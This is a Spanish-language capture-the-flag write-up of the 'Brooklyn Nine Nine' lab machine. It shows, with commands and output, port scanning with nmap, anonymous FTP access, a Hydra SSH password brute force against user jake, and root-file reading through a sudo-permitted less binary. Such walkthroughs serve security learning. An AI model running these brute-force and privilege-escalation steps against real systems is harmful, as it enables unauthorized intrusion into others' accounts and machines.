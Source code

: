 ```yaml
---
layout: post
author: Temerio
---
```


```bash
sudo nmap -p- -sSC --min-rate 5000 --open -vvv -n -Pn 10.10.241.206
```
```bash
Discovered open port 22/tcp on 10.10.241.206
Discovered open port 21/tcp on 10.10.241.206
Discovered open port 80/tcp on 10.10.241.206
```
___
Una vez descubierto que puertos abiertos tiene la maquina victima, hacemos un escaneo en profundidad.
```bash
sudo nmap -p21,22,80 -sCV -n -Pn 10.10.241.206 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-18 14:35 EST
Nmap scan report for 10.10.241.206
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.225.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.19 seconds
```
___

Podemos ingresar al FPT(Port-21) en modo Anonimo asi que procedemos a ingresar y listar su contenido.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ ftp 10.10.241.206
Connected to 10.10.241.206.
220 (vsFTPd 3.0.3)
Name (10.10.241.206:temerio): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
___

Dentro del File Transfer Protocol (FTP) se encuentra una nota para Jake, nos la descargamos a nuestra PC para posteriormente visualizar su contenido.
```bash
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.01 secs (19.4854 kB/s)
ftp> exit
221 Goodbye.
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
___

Visualizamos una nota con dos posibles usuarios `Amy y Jake`. Ya que amy le pide a Jake que cambie su contrase;a ya que es muy debil procederemos a Crackear su pass con el uso de Hydra.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.241.206 

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-18 15:18:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.241.206:22/
[22][ssh] host: 10.10.241.206   login: jake   password: [Deleted]
1 of 1 target successfully completed, 1 valid password found
```
___

Una vez obtenida la contraseña nos conectamos mediante secureshell(SSH).
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ ssh jake@10.10.241.206                        
jake@10.10.241.206's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
___

Listamos los comandos de sudo con `sudo -l`.
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
___

Observamos que `/usr/bin/less` (el cual es un enlace simbolico) puede ser ejecutado por cualquier usuario, podremos usarlo para obtener la flag de root.
```bash
jake@brookly_nine_nine:/$ cd /home/holt/
jake@brookly_nine_nine:/home/holt$ cat user.txt 
[Deleted By Temerio]
```
___

Ahora con less solo leemos la flag de root.

```bash
jake@brookly_nine_nine:/$ sudo /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [Deleted]

Enjoy!!
/root/root.txt (END)
```
Room Completada.